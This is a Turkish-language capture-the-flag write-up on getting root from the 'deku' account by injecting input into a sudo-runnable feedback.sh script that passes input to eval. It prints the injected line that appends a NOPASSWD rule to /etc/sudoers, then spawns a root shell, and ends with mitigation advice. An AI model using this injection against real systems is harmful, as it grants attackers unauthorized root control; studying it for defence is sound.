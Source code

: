 # Privilege Escalation: Deku Kullanıcısından Root Yetkilerine Yükselme

Bu yazıda, bir CTF senaryosunda `deku` kullanıcısı ile bir Linux makinesine SSH ile bağlandıktan sonra sudo yetkilerini kullanarak nasıl root erişimi sağladığımı adım adım açıklıyorum.

---

## 1. `sudo -l` Çıktısının Analizi

İlk olarak `sudo -l` komutunu çalıştırdım. Bu komut, `deku` kullanıcısının hangi komutları `sudo` yetkisiyle çalıştırabileceğini listeler:

```bash
sudo -l
```
Çıktı şu şekildeydi:


```bash
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
Buradan, deku kullanıcısının /opt/NewComponent/feedback.sh betiğini sudo yetkileriyle çalıştırabildiğini öğrendim. Bu, potansiyel bir yetki yükseltme (privilege escalation) açığı olabileceğini gösteriyordu.
```
2. feedback.sh Betiğinin Analizi
Betik dosyasını incelediğimde şu kodları buldum:

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```
Öne Çıkan Satır:
```bash

eval "echo $feedback"
```
Bu satır, kullanıcıdan alınan girdiyi eval komutuyla çalıştırıyor. Ancak, belirli karakterleri (\ ) ; | gibi) filtrelemeye çalışarak komut enjeksiyonunu engellemeyi hedefliyor. Fakat eval kullanımı nedeniyle bu betik hâlâ saldırıya açık.

3. Betiği sudo ile Çalıştırma
Betiği sudo ile çalıştırdım:

``` bash

sudo ./feedback.sh
```
Bu işlem, betiği root yetkileriyle çalıştırmamı sağladı. Betik çalıştırıldığında benden şu girdi istendi:

bash
Copy code
Enter your feedback:
4. Girdi Manipülasyonu: Sudoers Dosyasını Düzenleme
Girdi olarak şu komutu yazdım:

``` bash
deku ALL=NOPASSWD: ALL >> /etc/sudoers
Bu Komutun Amacı:
deku ALL=NOPASSWD: ALL: Bu satır, "deku" kullanıcısına hiçbir parola sormadan (NOPASSWD) herhangi bir komutu (ALL) sudo yetkisiyle çalıştırma izni verir.
>> /etc/sudoers: Bu komut, yukarıdaki yetkiyi /etc/sudoers dosyasına ekler. /etc/sudoers, kullanıcıların sudo yetkilerini yöneten kritik bir dosyadır.
Betiğin eval satırı sayesinde bu komut root yetkisiyle çalıştı ve /etc/sudoers dosyasına gerekli satırı ekledim.
```
5. Yetki Yükseltme: Root Erişimi Sağlama
Artık "deku" kullanıcısı hiçbir parola girmeden root yetkisiyle komut çalıştırabiliyordu. Aşağıdaki komutu kullanarak root erişimi sağladım:

``` bash
sudo /bin/bash
```
Bu komut, root yetkileriyle bir bash shell başlattı ve sistem üzerinde tam kontrol elde ettim.

6. Neden Bu Adımları Yaptım?
Açıkların Kullanımı:
feedback.sh betiğindeki eval satırı, kullanıcı girdisini doğrudan çalıştırdığı için komut enjeksiyonuna açıktı.
Sudo yetkisiyle çalıştırılabilen bu betiği kullanarak /etc/sudoers dosyasına yetki satırı ekledim.
Hedef:
Bu adımlarla, düşük yetkilere sahip bir kullanıcıdan (deku) root erişimi elde ettim. Bu, CTF çözümlerinde sıkça karşılaşılan bir yetki yükseltme tekniğidir.

7. Çıkarılan Dersler
Bu senaryoda şu güvenlik açıkları göze çarpmaktadır:

eval Kullanımı: Kullanıcı girdisini doğrudan çalıştırmak ciddi bir güvenlik riskidir. eval komutunun kullanılması kesinlikle önerilmez.
Sudo Yetkilerinin Yanlış Yapılandırılması: sudo yetkisiyle çalıştırılabilen bir betik, root erişimine açık bir kapı oluşturmuştur.
Girdi Filtrelemenin Yetersizliği: Filtreleme işlemi bazı özel karakterleri engellese de saldırıyı tamamen önleyememiştir.
Güvenlik Önerileri:
Kullanıcı girdilerini çalıştırmadan önce dikkatlice sanitize edin.
eval kullanmaktan kaçının; bunun yerine güvenli alternatifler tercih edin.
Sudo yetkilerini minimum seviyede tutun ve gereksiz betikleri sudo ile çalıştırılabilir hale getirmeyin.
Özet
Bu senaryoda:

``` bash
sudo -l
````

 ile deku kullanıcısının sudo yetkilerini keşfettim.
feedback.sh betiğini inceledim ve komut enjeksiyonu yaparak sudoers dosyasını düzenledim.
Son olarak, root yetkileriyle bir shell açarak tam kontrol sağladım.
Bu çözüm, hem CTF çözümleme pratiği hem de gerçek dünyada güvenlik açıklarını anlamak için oldukça öğreticidir.
